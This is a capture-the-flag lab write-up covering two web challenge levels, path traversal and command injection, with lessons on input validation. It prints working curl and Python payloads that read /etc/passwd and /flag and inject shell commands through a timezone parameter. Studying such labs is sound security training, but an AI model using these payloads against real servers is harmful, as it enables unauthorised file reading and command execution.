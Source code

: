 # Web Security Challenges

---

## Level 1: Path Traversal

**Problem Statement:**  
Bypass file access restrictions to read sensitive files on the server using path traversal.

**Approach:**  
- Attempted to access `/etc/passwd` by manipulating the URL path.
- Discovered the server required a `path` argument.
- Used `?path=/../../../etc/passwd` to successfully read the file.
- Used the same technique to access the `/flag` file.

**Example Exploit:**
```sh
curl http://challenge.localhost:80?path=/../../../etc/passwd --path-as-is -i
curl http://challenge.localhost:80?path=/../../../flag --path-as-is -i
```

**Tools Used:**  
- `curl` with `--path-as-is` to avoid URL normalization.

**Key Lessons Learned:**  
- Path traversal vulnerabilities can be exploited by manipulating URL parameters.
- Servers may leak information about required parameters in error messages.
- Always validate and sanitize user input on the server side.

---

## Level 2: Command Injection

**Problem Statement:**  
Exploit a command injection vulnerability to execute arbitrary commands and retrieve the flag.

**Approach:**  
- Noticed the `timezone` parameter was passed to a shell command.
- Injected shell commands using `;` to chain commands (e.g., `;cat /flag;`).
- Used both `curl` and Python’s `requests` to automate the attack.

**Example Exploit:**
```sh
curl --path-as-is "http://challenge.localhost:80?timezone=whoami;id;"
```
```python
url = "http://challenge.localhost:80?timezone=who;cat /flag;"
data = {"Cookie": "c61b7eb3605bc2a2fdbbcac920bdd414"}
response = re.post(url , data=data )
print(response.text)
```

**Tools Used:**  
- `curl`
- Python `requests` library
